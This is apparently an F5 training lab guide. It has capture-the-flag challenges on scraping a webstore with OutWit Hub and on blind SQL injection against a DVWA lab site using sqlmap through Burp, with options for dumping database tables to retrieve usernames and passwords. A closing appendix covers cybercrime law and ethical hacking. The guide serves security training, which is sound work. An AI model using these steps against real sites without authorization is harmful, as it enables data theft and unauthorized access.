Challenge: Webscraping
----------------------

Webscraping is a popular technique used by both white and black hatters
to “scrape” a website to harvest information from it. A good example of
a mischievous webscraping activity would be a competitor scraping a
website in order to harvest a product catalog or product prices. Once
they obtain this information, they can gain intelligence about their
competition and use it for their own ends.

There are a variety of tools out there to conduct webscraping. Some are
off-the shelf and some are custom-developed. In either case, these tools
are smart in that they know how to bypass the webscraping security
controls – by modifying their traffic patterns (i.e vary the request
rate and frequency to avoid detection)

Webstore.f5lab.biz is an online business that offers variety of
products. It was detected that an attacker has mounted a webscraping
attack against the website and is copying all the product images.

It was discovered that an attacker is using a popular scraping tool
OutWit Hub:

|image8|

The setup
~~~~~~~~~

Open OutWit Hub from the Start Menu

In the OutWit Hub GUI, go to **Tools/Preferences/Exports & Downloads**
and specify a windows folder under “Save files in”

This folder is where the hacker (web scraper) will save the scraped
images

**Select Images on the left-hand panel in the GUI:**

|image9|

Note: The OutWit application is written in Java so it sometimes has a
challenge with resizing on the RDP session. If you cannot see all the
panels well (as in the screenshot below), please resize it and move the
sections around in OutWit until it resembles what you see in the
screenshot below):

|image10|

The highlighted sections in the mage above show the settings that need
to be set in order to continue with the exercise.

Tell the scraping tool to look for a file called *flag-hacked.jpg*.
Finding this file will earn you a point:

|image11|

Change the scraping settings in the tool’s GUI to Auto-Catch and
Auto-Empty:

|image12|

Make sure you tell the tool to Save the images which it finds:

|image13|

train the tool on
`https://webstore.f5lab.biz <https://webstore.f5lab.biz/>`__:

|image14|

Hit enter

First set of images should show in the OutWit Hub GUI.

Important: Make the scraper scrape the entire site by following all the
site’s links. To do this, push the “Autoexplore the links on the page”
button:

|image15|

Challenge: BlindSQL Injection
-----------------------------

Blind SQL (Structured Query Language) injection is a type of \ `SQL
Injection <https://www.owasp.org/index.php/SQL_Injection>`__ attack that
asks the database true or false questions and determines the answer
based on the applications response. This attack is often used when the
web application is configured to show generic error messages, but has
not mitigated the code that is vulnerable to SQL injection.

When an attacker exploits SQL injection, sometimes the web application
displays error messages from the database complaining that the SQL
Query's syntax is incorrect. Blind SQL injection is nearly identical to
normal \ `SQL
Injection <https://www.owasp.org/index.php/SQL_Injection>`__, the only
difference being the way the data is retrieved from the database. When
the database does not output data to the web page, an attacker is forced
to steal data by asking the database a series of true or false
questions. This makes exploiting the SQL Injection vulnerability more
difficult, but not impossible.

Putting it together: using SQLMAP with Burp. If dealing with clear-text
http, you can just configure sqlmap to proxy thru Burp. If the site you
are working with enforces SSL/TLS, within Burp: Proxy Options Proxy
Listeners Request handling, select “Force Use of SSL”

| To force SQLMAP to use burp as a proxy: ./sqlmap.py -u "http://<target
  URL" --proxy "http://127.0.0.1:8080"
| where -u is target URL, --data is POST data and --proxy is burp proxy
  details.

SQL injection/BlindSQLI exploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Web applications front-end access to back-end databases. Properly built
applications will validate the input into form fields. A client will
fill out a web form and the results will be submitted. With SQL
injection exploits, SQL commands are submitted in via the web
application forms. If the application is not validating the input
(blocking actual SQL commands), then those will get submitted to the
database and results can be returned. When testing a website for SQL
injection vulnerabilities, errors may be returned from vulnerable
websites that indicate the site is vulnerable and how to exploit it.
Some websites may suppresses the error messages however. This makes SQL
injection harder and what leads to Blind SQL injection.

SQLi exploits can be performed manually thru a web browser. While this
can be useful to test a website, it can consume time to manually exploit
a vulnerable website. This is where SQLmap can be useful as an automated
method to make SQL injection easier. The SQLmap official website says:

    SQLmap is an open source penetration testing tool that automates the
    process of detecting and exploiting SQL injection flaws and taking
    over of database servers. It comes with a powerful detection engine,
    many niche features for the ultimate penetration tester and a broad
    range of switches lasting from database fingerprinting, over data
    fetching from the database, to accessing the underlying file system
    and executing commands on the operating system via out-of-band
    connections.

The focus of this lab will be on the use of SQLmap to “map” the
database, learning the databases, tables, rows and columns. Successful
completion of this lab will result in retrieval of the usernames and
passwords. In the database you will find the CTF token.

Proxying the requests thru Burp Suite will help to see and work thru the
exploit. Later in this lab you can use Burp Suite to proxy the SQLmap
requests to get a better view of what is actually being sent/received.

| Both Burp Suite and Sqlmap are tools installed on the jump box
  machine.
| Burp Suite is a link on the desktop and SQLmap is located in
  c:\\sqlmap (as python sqlmap.py)

Executing the exploit
~~~~~~~~~~~~~~~~~~~~~

Connect to the jumpbox

Open Chrome and enable the developer tools (Control-Shift-I)

In order to use SQL map, you will need to gather a valid session cookie
and the URL to test. The Chrome developer tools can help with this.
Clicking on the Application tab of the developer tools will provide
details on the cookies as well as other information,

|image16|

Browse to the DVWA website via the bookmark

| Login to the DVWA website and click on the “SQL injection (Blind)”
  panel.
| (User:admin, pass:password)

Click the SQL Injection (Blind) on the left side of the page and enter a
number (4 for example) into the user id field and click submit.

With these details, we are able to construct the sqlmap command.

| Open a command prompt in windows and change to the “c:\\sqlmap”
  directory.
| This implementation of sqlmap uses python so you will use the
  “sqlmap.py” script

You can type “sqlmap.py –hh” for an extended list of the options.

Some of the options that will be of interest to us include:

| -u (for specifying the URL to test)
| --cookie (for specifcing the session cookie to use)
| --dbs (for enumerating the databases)
| -D <database name> (for specifying a database to work with)
| --tables (to provide a list of the tables in the DB)
| --columns (provides the DB columns)
| -dump (will dump the contents of the columns specified)
| --proxy http://127.0.0.1:8080 (to use a proxy, in this case Burp suite
  listening on the loopback address of the local machine)

Appendix A: Cyber Security – A Legal Perspective
================================================

Cybercrime Security:
~~~~~~~~~~~~~~~~~~~~

Collective processes and mechanisms by which people, sensitive and
valuable information, products and services are protected from damage,
publication, tampering or collapse by unauthorized activities or
untrustworthy individuals and unplanned events respectively. Computer
security aims at the protection of persons, information and property
from theft, misuse, corruption, tampering, unauthorized disclosure, or
natural disaster, while allowing the information and property to remain
accessible and productive to its intended users

Background:
~~~~~~~~~~~

-  In the early 1980s law enforcement agencies faced the dawn of the
   computer age with growing concern about the lack of criminal laws
   available to fight emerging computer crimes.

-  In response, Congress included in the Comprehensive Crime Control Act
   (CCCA) of 1984 provisions to address the unauthorized access and use
   of computers and computer networks

-  Throughout 1985, both the House and the Senate held hearings on
   potential computer crime bills, continuing the efforts begun the year
   before. These hearings culminated in the Computer Fraud and Abuse Act
   (CFAA)

 Current Legal Environment:
~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  The Primary guide in most federal hacking cases in still the Computer
       Fraud and Abuse Act (CFAA - passed by U.S. Congress in 1986)

-  Other federal statutes used for prosecuting Cybercrime are:

-  Wiretap Act

-  Unlawful Access to Stored Communications Act

-  Identity Theft and Aggravated Identity Theft Act

-  Access Device Fraud Act

-  CAN-SPAM Act

-  Wire Fraud

-  Communication Interference Act

Other considerations
~~~~~~~~~~~~~~~~~~~~

In addition, most every state has its own Computer Crime Statutes. Each
state also has its own prosecutorial system. Some states are much more
active in the area of cybersecurity enforcement than others, but
typically the states will cooperate with federal authorities. Some state
laws are more restrictive than federal, i.e. in areas such as State Laws
Addressing “Phishing” and State Spyware Laws. The laws are a complex
web. Only skilled lawyers are capable of figuring out the full meaning
revealed in case law interpretations of the state and federal laws.

Legal vs. Illegal hacking
~~~~~~~~~~~~~~~~~~~~~~~~~

Cracker vs Hacker

-  A hacker is a person intensely interested in the arcane and recondite
   workings of any computer operating system. Hackers are most often
   programmers. As such, hackers obtain advanced knowledge of operating
   systems and programming languages. They might discover holes within
   systems and the reasons for such holes. Hackers constantly seek
   further knowledge, freely share what they have discovered, and never
   intentionally damage data.

-  A cracker is one who breaks into or otherwise violates the system
   integrity of remote machines with malicious intent. Having gained
   unauthorized access, crackers destroy vital data, deny legitimate
   users service, or cause problems for their targets. Crackers can
   easily be identified because their actions are malicious.

Clear Dividing Line
~~~~~~~~~~~~~~~~~~~

-  Congress needs to enact a clearer, more technologically current law
   to rationally and fairly divide the line between legal and illegal
   hacking. The complete rewrite should include different Acts for
   criminal and civil rules and enforcement, and should tie into privacy
   and security legislation.

-  Need a clearer / more dependable way to distinguish between “ethical”
   and “malicious” hacking

-  Malicious hacking is always negative and destructive. Ethical
   hacking’s goal is to contribute to the security community and to
   improve overall security

White / Grey / Black(cracker) Hat Hacking
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  All of them exploit weaknesses in computer systems and networks

-  Black Hat Hackers, computer criminals whose malicious activities
   serve their own ends ranging from financial gain to simply causing
   chaos

-  White Hat (“ethical”) Hackers are usually those that carry out their
   craft with no apparent criminal intention in mind

-  Grey Hat Hackers sit in the middle, often hacking into a system just
   to prove they can, but afterwards usually notifying the vendor or
   owner of the weakness

White Hat Hacking
~~~~~~~~~~~~~~~~~

-  Usually hired by companies to carry out vulnerability assessments and
   penetration testing, a technique that helps to determine how secure
   the company’s systems are.

-  It’s a necessary business service that allows businesses identify
   their weaknesses and shore up their defences against real criminals
   (Crackers / Black Hats)

Is Ethical Hacking Legal? – It depends!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Companies believe that authorizing an ethical hacker to test a
   company’s defences is enough legal protection to justify ethical
   hacking. Ethical Hackers believe they are justified by the fact that
   they are acting in the best interests of the company who hired them

-  However, what needs to be considered is how far the hacker is willing
   to go to test the systems. Or worse, to switch into grey hat mode,
   determined to break in just to prove they can

Ethical hacking pitfalls
~~~~~~~~~~~~~~~~~~~~~~~~

-  Often, Ethical Hackers break laws in order to conduct their
   activities:

-  Obtaining a user’s PII (i.e. social engineering)

-  Gain access to the system using someone else’s credentials (obtained
   Illicitly)

-  Gain access to confidential information

-  Gain access to customer/employee information

-  Probe / “White Hat”-hack other avenues to the company being tested
   i.e. access via their business partners. Unless the business partner
   has been included in the scope of the penetration test, the ethical
   hacker has strayed outside the boundaries of the law to achieve their
   aims

Remarks
~~~~~~~

-  “Ethical Hackers” aim to test businesses’ security in a constructive
   way in order to improve it

-  Companies hire ethical hackers because they need to test their
   security. By granting their permission to the pentest, they
   effectively cover their corporate eyes and ears while these actions
   are carried out

-  However, often neither the company or the hacker know if/what laws
   are being broken

-  So it is a Grey Area – Ethical Hackers are not granted immunity –
   they need to ensure that the actions they take do not break the laws
   outlined in the Law Acts and Statuses

Worlwide View
~~~~~~~~~~~~~

-  No single international framework for cybersecurity law, but some
   multi‐lateral efforts

-  Budapest Convention on Cybercrime (2001)

-  Council of Europe’s effort to harmonize disparate national cybercrime
   laws

-  EU Network and Information Security (NIS) Directive

-  PRIVACY – Proposed EU General Data Protection Regulation

-  New law would apply to any company that controls or processes the
   personal data of Europeans through the offering of goods and services
   – even if company has no physical presence in Europe.

-  Fines of up to 4% of company’s annual global revenue or €20 million
   for violations

-  Other countries each have Cybersecurity laws

Tensions in Global Cyberspace
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  The rapid growth of the Internet and sophistication of cybercrime
   continues to outpace the ability of the legal

-  system to respond. The attribution problem makes policing and
   accountability particularly difficult.

-  Cyber assets are distributed between the public sector and private
   sector, and the private sector is comprised of a

-  wide range of disparate entities.

-  There is a lack of international coordination on cyber issues. As a
   result, there is no centralized international cyber

-  threat information sharing or common computer incident response
   teams.

-  Different values among countries; different levels of preparedness;
   different degrees of interest and risks.

-  Companies and governments face overlapping and conflicting sets of
   laws:

-  Harmonization vs. divergence of regional and national laws

-  Personal data laws and system/infrastructure obligations are not
   integrated or reconciled

-  Quality of company's cybersecurity depends in part on visibility into
   traffic on its own network, but such insight can

-  be in tension with cultural and sometimes legal barriers to
   electronic monitoring of employees.

-  Approach to implementation: market‐driven vs. regulatory

-  Governance: government‐centric vs. multi‐stakeholder

Certified Ethical Hacking Certification
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

A Certified Ethical Hacker is a skilled professional who understands and
knows how to look for weaknesses and vulnerabilities in target systems
and uses the same knowledge and tools as a malicious hacker, but in a
lawful and legitimate manner to assess the security posture of a target
system(s). The CEH credential certifies individuals in the specific
network security discipline of Ethical Hacking from a vendor-neutral
perspective.

The purpose of the CEH credential is to:

-  Establish and govern minimum standards for credentialing professional
   information security specialists in ethical hacking measures.

-  Inform the public that credentialed individuals meet or exceed the
   minimum standards.

-  Reinforce ethical hacking as a unique and self-regulating profession.

About the Exam

Number of Questions: 125

Test Duration: 4 Hours

Test Format: Multiple Choice

Test Delivery: ECC EXAM, VUE

Exam Prefix: 312-50 (ECC EXAM), 312-50 (VUE)

Learn More
==========

Sign up for an account on https://f5.com/labs to stay up to date

Notes:

+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| F5 Networks, Inc. \| f5.com                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
+======================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================+
| US Headquarters: 401 Elliott Ave W, Seattle, WA 98119 \| 888-882-4447 // Americas: info@f5.com // Asia-Pacific: apacinfo@f5.com // Europe/Middle East/Africa: emeainfo@f5.com // Japan: f5j-info@f5.com                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| ©2017 F5 Networks, Inc. All rights reserved. F5, F5 Networks, and the F5 logo are trademarks of F5 Networks, Inc. in the U.S. and in certain other countries. Other F5 trademarks are identified at f5.com. Any other products, services, or company names referenced herein may be trademarks of their respective owners with no endorsement or affiliation, express or implied, claimed by F5. These training materials and documentation are F5 Confidential Information and are subject to the F5 Networks Reseller Agreement. You may not share these training materials and documentation with any third party without the express written permission of F5.   |
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

.. |image0| image:: media/image2.png
   :width: 5.30417in
   :height: 2.84375in

.. |image2| image:: media/image4.png
   :width: 5.32708in
   :height: 3.33512in
.. |image3| image:: media/image5.png
   :width: 4.14931in
   :height: 1.28102in
.. |image4| image:: media/image6.png
   :width: 5.27007in
   :height: 2.59514in

.. |image6| image:: media/image8.png
   :width: 5.30972in
   :height: 3.63611in

.. |image9| image:: media/image11.png
   :width: 1.87500in
   :height: 1.37500in
.. |image10| image:: media/image12.png
   :width: 4.56250in
   :height: 3.31528in
.. |image11| image:: media/image13.png
   :width: 4.54167in
   :height: 2.93750in
.. |image12| image:: media/image14.png
   :width: 2.66667in
   :height: 0.81250in
.. |image13| image:: media/image15.png
   :width: 4.83333in
   :height: 1.26597in

.. |image15| image:: media/image17.png
   :width: 5.30972in
   :height: 0.91250in

